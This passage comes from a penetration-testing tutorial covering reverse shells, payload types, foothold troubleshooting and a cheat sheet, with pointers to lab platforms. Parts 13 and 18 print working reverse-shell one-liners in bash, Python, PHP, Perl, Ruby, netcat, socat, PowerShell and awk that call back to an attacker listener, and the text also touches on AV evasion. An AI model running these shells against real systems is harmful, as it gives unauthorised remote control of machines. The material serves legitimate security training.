- **Keep it legal:** only machines you own or are explicitly authorised to attack. CTF platforms grant that authorisation within their scope — real systems do not.

---

## Part 13: The Reverse-Shell One-Liner, Language by Language

When no native payload fits, you fall back to a one-line reverse shell in whatever interpreter the target has. Each of these connects stdin/stdout/stderr of a shell to a TCP socket back to your listener. Catch them all with a plain `nc -lvnp 443`.

### bash (`/dev/tcp` — no external tools)

```bash
bash -i >& /dev/tcp/10.10.10.5/443 0>&1
```

- Works only where bash was built with `/dev/tcp` support (most distros).
- `sh` usually lacks it — force bash explicitly.

### bash alternative (mkfifo, works when `/dev/tcp` is stripped)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.5 443 >/tmp/f
```

- Uses a named pipe so `nc` without `-e` can still wire a shell.

### python3 (the most reliable, gives a PTY)

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.10.5",443));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
```

- `pty.spawn` gives you a *pseudo-terminal* immediately — a partially interactive shell out of the box.
- Swap `python3` for `python` on older boxes.

### PHP (web servers)

```bash
php -r '$s=fsockopen("10.10.10.5",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- The go-to when you have PHP code execution (webshell → real shell).

### Perl (old Unix, appliances)

```bash
perl -e 'use Socket;$i="10.10.10.5";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
```

### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.10.10.5",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### netcat (with and without `-e`)

```bash
nc -e /bin/sh 10.10.10.5 443                 # if this build supports -e
nc.traditional -e /bin/sh 10.10.10.5 443     # Debian's -e capable variant
# no -e? use the mkfifo trick above
```

### Ncat (nmap's nc, supports TLS)

```bash
ncat --ssl 10.10.10.5 443 -e /bin/bash       # encrypted reverse shell
```

### socat (fully interactive PTY)

```bash
# target:
socat TCP:10.10.10.5:443 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
# attacker listener:
socat file:`tty`,raw,echo=0 TCP-LISTEN:443
```

### PowerShell (Windows)

```powershell
powershell -nop -w hidden -c "$c=New-Object Net.Sockets.TCPClient('10.10.10.5',443);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$s2=$sb+'PS '+(pwd).Path+'> ';$sh=([Text.Encoding]::ASCII).GetBytes($s2);$s.Write($sh,0,$sh.Length);$s.Flush()}"
```

### awk (last-resort, minimal systems)

```bash
awk 'BEGIN{s="/inet/tcp/0/10.10.10.5/443";while(1){printf">"|&s;s|&getline c;while(c){system(c|getline r);print r|&s;s|&getline c}}}'
```

**Which to reach for:** try **python3** first (it gives a PTY), then **bash `/dev/tcp`**, then language-specific ones based on what's installed. The reference site everyone keeps open for these is *PayloadsAllTheThings* and *revshells.com* — but understanding the mechanics (socket + dup the three FDs + exec a shell) means you can write one from memory when you're offline in an exam.

---

## Part 14: A Field Guide to Payload Types

Payloads are not just "reverse shells." A quick taxonomy of what a payload can *do*:

| Payload type | What it does | Typical use |
|---|---|---|
| `shell_reverse_tcp` | raw command shell, dials out | simple footholds, nc-catchable |
| `shell_bind_tcp` | raw command shell, listens | when you can't be reached |
| `meterpreter/reverse_tcp` | full MSF agent, staged | rich post-ex, migration, pivoting |
| `meterpreter_reverse_https` | MSF agent over HTTPS, stageless | egress-restricted, blends with TLS |
| `exec` | run a single command | add a user, run a script |
| `adduser` | create a privileged account | quick persistence (noisy) |
| `download_exec` | fetch + run a second binary | modular delivery |
| `messagebox` / `nop` | prove code exec harmlessly | PoC without a shell (safe demos) |
| `vncinject` | live VNC of the desktop | interactive GUI access |

Transports (how the payload talks back) matter as much as the action:

- `reverse_tcp` — raw TCP callback. Simple, but a bare shell on an odd port is obvious.
- `reverse_https` — callback wrapped in TLS on 443. Blends with normal web traffic; survives inspecting proxies better; the default for evasion-conscious work.
- `reverse_http` — HTTP callback; proxy-aware.
- `bind_tcp` — target listens; only when ingress to the target is open and you can't be dialled.



The mental formula: **payload = what it does + how it phones home.** You choose the *action* by your objective (a shell to explore, exec to make one change, Meterpreter for heavy post-ex) and the *transport* by the target's egress and how much you care about blending in.

---

## Part 15: Common Foothold Failures and How to Diagnose Them

More engagement time is lost to "the shell didn't come back" than to finding the exploit. A systematic checklist:

| Symptom | Likely cause | Fix |
|---|---|---|
| Nothing connects back | wrong `LHOST` in payload | rebuild with your *reachable* IP (VPN/tun0, not eth0) |
| Nothing connects back | listener not started / wrong port | start listener first; `ss -tlnp` to confirm |
| Nothing connects back | egress blocked on that port | switch to 443/80; test which ports call out |
| Connects then instantly drops | listener/payload mismatch | staged payload needs `multi/handler`, not nc |
| Connects then instantly drops | payload arch/OS mismatch | match x86/x64 and OS to target |
| Shell but no output / hangs | non-interactive quirks | stabilise (pty), set `TERM` |
| Ctrl-C kills whole shell | dumb shell, no job control | upgrade TTY (Chapter 7) |
| Works locally, not remotely | NAT/firewall between you and target | use reverse shell; port-forward your listener |
| Payload runs, AV deletes it | signatured stock payload | encode/obfuscate, or use a language one-liner |
| `sudo`/`ssh` fails "no tty" | missing PTY | `python3 -c 'import pty;pty.spawn("/bin/bash")'` |

The disciplined diagnosis order:

1. Is the listener actually listening? (`ss -tlnp | grep <port>`)
2. Is `LHOST` the IP the target can actually reach you on? (on HTB/THM it's your `tun0`, not `eth0`.)
3. Can the target egress on that port at all? (try 443/80.)
4. Does the listener match the payload type? (staged vs stageless.)
5. Do payload arch/OS match the target?

Ninety percent of failures are items 1–3. Before blaming the exploit, confirm the plumbing.

---

## Part 16: The Discipline of Not Losing a Shell

A foothold is fragile. Habits that keep it alive:

- **Stabilise immediately** (Chapter 7) so a stray Ctrl-C doesn't kill it.
- **Get a second shell fast.** As soon as you have one, use it to establish a *second*, independent callback (different port/transport) so a dropped connection isn't game over.
- **Prefer Meterpreter/robust agents** for long work — they survive better and support `background`, `sessions`, migration.
- **Migrate out of fragile processes.** A shell inside a web-request thread dies when the request ends; migrate into a stable process (Chapter 4).
- **Log your session.** `tee` your terminal or use MSF's `spool` so you keep evidence and don't lose enumeration output if the shell drops.
- **Note the essentials the moment you land:** current user (`id`/`whoami`), host, IP/subnet, OS/arch, and how you got in — you'll need all of it for the report and for re-entry.

```bash
# quick landing checklist (Linux)
id; hostname; uname -a; ip -brief a; sudo -n true 2>&1 | head -1
```

```powershell
# quick landing checklist (Windows)
whoami /all; hostname; systeminfo | findstr /B /C:"OS Name" /C:"System Type"; ipconfig
```

Treat the first minute after a foothold as sacred: stabilise, snapshot what you know, and secure a backup path *before* you start poking at privilege escalation.

---

## Part 17: Final Revision / Summary

- **Exploitation** turns a known vulnerability into code execution; the **foothold** is the resulting first shell/session. It's one link — it needs recon/enum before and post-ex after.
- **Exploit ≠ payload ≠ shellcode:** the exploit abuses the bug, the payload is what runs afterward, shellcode is raw-machine-code payload. Choose exploit by *vulnerability*, payload by *OS/arch/goal*, listener by *payload*.
- **Shells** are interactive or dumb, and run at whatever privilege the exploited process had; dumb shells need stabilising (Chapter 7).
- **Reverse vs bind:** reverse (target dials out to you) wins almost always because egress is looser than ingress; use bind only when you can't be reached. Pick 443/80 to blend.
- **Staged vs stageless:** `/` = staged (tiny stager pulls the rest), `_` = stageless (one blob). Listener must match; a staged Meterpreter needs `multi/handler`, not bare nc.
- **Match the payload** to OS + CPU arch + available interpreters + egress path; language one-liners are the universal fallback.
- **Delivery vectors:** memory-corruption, web RCE, macro/document, service/creds, physical/USB — chosen together with the payload.
- **Listeners:** nc (raw/stageless), socat (interactive/encrypted), `multi/handler` (any MSF payload). Start the listener *before* firing. A shell that connects-then-drops is usually a listener/payload mismatch.
- **AV/EDR** shape modern payloads: encoding ≠ evasion; behaviour beats bytes for both attacker tradecraft and defender detection.

---

## Part 18: Cheat Sheet / Quick Reference

### Terminology in one screen

```
exploit    = abuses the vuln to run your code (the crowbar)
payload    = what runs after (open shell, add user, beacon)
shellcode  = raw machine-code payload injected into memory
shell      = command interpreter you control over the network
session    = the managed connection/state (MSF term)
listener   = attacker-side catcher (nc / socat / multi/handler)
```

### Reverse vs bind

```
reverse: attacker listens, target dials OUT  -> beats NAT/ingress FW (DEFAULT)
bind:    target listens, attacker dials IN   -> only when you can't be reached
port pick: 443 / 80 blend with egress; 4444 gets flagged
```

### Staged vs stageless (MSF naming)

```
meterpreter/reverse_tcp   (slash)     = STAGED   -> tiny stager pulls stage
meterpreter_reverse_tcp   (underscore)= STAGELESS -> one self-contained blob
listener MUST match; staged -> multi/handler (not bare nc)
```

### Catch a simple reverse shell

```bash
# attacker (start FIRST):
nc -lvnp 443
# target (the delivered payload):
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
# stabilise:
python3 -c 'import pty; pty.spawn("/bin/bash")'   # then Ctrl-Z; stty raw -echo; fg; export TERM=xterm
```

### Universal one-liner reverse shells (target side)

```bash
bash -i >& /dev/tcp/IP/443 0>&1                                  # bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",443));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
php -r '$s=fsockopen("IP",443);exec("/bin/sh -i <&3 >&3 2>&3");'  # php
perl -e 'use Socket;$i="IP";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
# PowerShell (Windows):
powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('IP',443);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$sbt=([Text.Encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()}"
```

### Listener rules

```
start listener BEFORE triggering payload
verify: ss -tlnp | grep 443
match listener to payload; connect-then-drop = mismatch
```

### Verify the foothold

```bash
id            # who am I / privilege
hostname      # which box
uname -a      # OS/arch (Linux)   |  systeminfo (Windows)
ip a / ifconfig   # what network am I on
```

---

## Part 19: Practice Labs & Resources

Topic-specific practice for exploitation fundamentals:

- **TryHackMe — "What the Shell?"**: the canonical room for reverse vs bind shells, listeners, staged/stageless, and stabilisation — maps directly onto Parts 4–9.
- **TryHackMe — "Metasploit: Introduction" and "Exploitation" path**: bridges this chapter into the Metasploit chapters (3–6).
- **HackTheBox — "Starting Point" tier**: guided first footholds that force the listen → deliver → catch → stabilise loop.
- **OWASP Juice Shop / DVWA**: practise web-RCE delivery (upload, command injection) and catching the resulting shell.
- **Metasploitable 2**: a whole box of vulnerable services to get footholds against with every delivery vector.
- **PortSwigger Web Security Academy — OS command injection labs**: turning a web bug into command execution (the delivery vector of Part 7).
- **pwn.college / OverTheWire**: for the memory-corruption end of the exploit/payload/shellcode distinction.

Run everything only against machines you own or are authorised to attack, always start your listener first, and record your `LHOST`/`LPORT` every session — most "it didn't work" moments trace back to a wrong IP or a listener that wasn't ready.
